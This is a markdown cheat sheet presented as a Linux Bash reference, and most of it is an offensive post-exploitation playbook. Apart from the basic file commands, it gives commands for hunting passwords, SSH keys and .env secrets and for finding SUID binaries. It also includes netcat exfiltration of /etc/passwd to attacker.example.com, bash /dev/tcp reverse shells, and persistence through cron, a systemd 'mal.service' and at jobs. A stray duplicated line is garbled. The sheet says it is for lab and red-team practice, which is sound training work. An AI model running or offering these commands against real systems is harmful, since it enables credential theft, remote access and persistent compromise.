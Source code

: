 # Linux Bash Reference

## Quick file commands

```bash
# List (human readable), show hidden
ls -lah

# View file contents (pager)
less file.txt
cat file.txt

# Copy / Move / Delete
cp -av source dest
mv -v file dest/
rm -rf ./build/

# Create files/dirs
touch filename.txt
mkdir -p /tmp/mydir
truncate -s 1M placeholder.bin   # create file of size 1MB

# Permissions
chmod 700 script.sh
chown user:group file
getfacl file  # check ACLs

# Archive / compress
tar -cvzf archive.tgz somedir/
unzip package.zip
```

## System & user enumeration

```bash
# Basic system info
uname -a
lsb_release -a  # on many distros
cat /etc/os-release
hostnamectl

# User / groups
id
whoami
getent passwd | grep -E ":/home/"    # list human users
cut -d: -f1,3,6 /etc/passwd
lastlog | head

# Processes / services
ps aux --sort=-%cpu | head -n 20
ss -tunap        # active sockets (recommended)
netstat -tulpn   # if available
systemctl list-units --type=service --state=running
service --status-all

# Network config
ip addr show
ip route show
ip neigh show
route -n

# Mounted filesystems
mount | column -t
lsblk -f
```

## Finding files & secrets

```bash
# Find files by name (recursive)
find / -type f -iname "*password*" 2>/dev/null
find /home -maxdepth 3 -type f -name "*.env" 2>/dev/null

# Search file contents (grep)
grep -RIn --exclude-dir={.git,node_modules} -e "password" -e "secret" /home 2>/dev/null

# Locate database (needs updatedb)
locate .env | head

# Look for common secret locations
ls -lah ~/.ssh
cat ~/.ssh/authorized_keys
cat ~/.bash_history
cat /var/www/html/.env

# Find suid binaries (privilege escalation hunting)
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null

# Find writable files and directories as any user
find / -writable -type d 2>/dev/null | head

# Check sudo rights
sudo -l 2>/dev/null

# Check for credentials in configs
grep -RIn "password\|passwd\|token\|key\|secret" /etc /home 2>/dev/null | head
```

## Networking & transfer

```bash
# Test connectivity
ping -c 4 8.8.8.8
traceroute -n 10.0.0.1

# Download a file
curl -sSL -o /tmp/tool https://example.com/tool && chmod +x /tmp/tool
wget -q -O /tmp/tool https://example.com/tool

# Upload / copy between hosts
scp user@host:/path/to/file ./
rsync -avz user@host:/var/www/ ./www/

# Simple TCP listener (netcat)
# Listener (attacker)
nc -lvnp 9001
# Connect (target)
nc attacker.example.com 9001 < /etc/passwd

# Reverse shell examples (for labs)
# Bash reverse shell (target)
bash -i >& /dev/tcp/10.0.0.5/4444 0>&1

# Check open ports and services
ss -tunlp
nmap -sC -sV -p- 10.0.0.0/24
```

## Scheduled jobs & persistence

```bash
# List crontab for current user
crontab -l
# System cron jobs
ls -lah /etc/cron.* /etc/crontab

# Create a @reboot cronjob (persistence)
(crontab -l 2>/dev/null; echo "@reboot /usr/bin/nc -e /bin/bash attacker 4444") | crontab -

# Systemd service persistence example (create minimal service)
# /etc/systemd/system/mal.service
# [Unit]
# Description=malicious service
# [Service]
# ExecStart=/usr/bin/bash -lc 'bash -i >/dev/tcp/10.0.0.5/4444 0>&1'
# [Install]
# WantedBy=multi-user.target
sudo systemctl daemon-reload
sudo systemctl enable --now mal.service

# At jobs
echo "/usr/bin/bash -i >/dev/tcp/10.0.0.5/4444 0>&1" | at now + 1 minute
```

## Process & memory inspection

```bash
# View environment of process (requires privileges)
tr '\0' '\n' < /proc/<pid>/environ
' < /proc/<pid>/environ

# Check listening processes and owners
ss -tunlp | grep LISTEN
lsof -i -P -n | grep LISTEN

# Dump process memory (requires privileges)
gcore <pid>    # creates core.<pid>
strings core.<pid> | grep -i password

# Check loaded kernel modules
lsmod
modinfo <module>
```

## Common enumeration utilities (one-liners)

```bash
# Quick list of interesting files, writable locations and cronjobs
(echo "-- Writable dirs --"; find / -type d -writable -print 2>/dev/null | head -n 50; echo "\n-- SUID bins --"; find / -perm -4000 -type f -print 2>/dev/null; echo "\n-- Cronjobs --"; ls -la /etc/cron* /var/spool/cron/crontabs 2>/dev/null) > /tmp/enum_summary.txt

# Check sudo misconfigurations and privileged binaries
sudo -l 2>/dev/null || true
find / -perm -4000 -user root -type f -exec ls -ld {} \; 2>/dev/null | head
```

## Notes

- Redirect errors to /dev/null when you want cleaner output (e.g., permission denied noise).
- Use `ss` instead of `netstat` on modern systems for more accurate socket info.
- Be cautious when fetching and executing remote binaries — only do this in lab environments you control.
- This sheet is a reference for ethical hacking practice and red-team exercises. Keep usage legal and within scope.
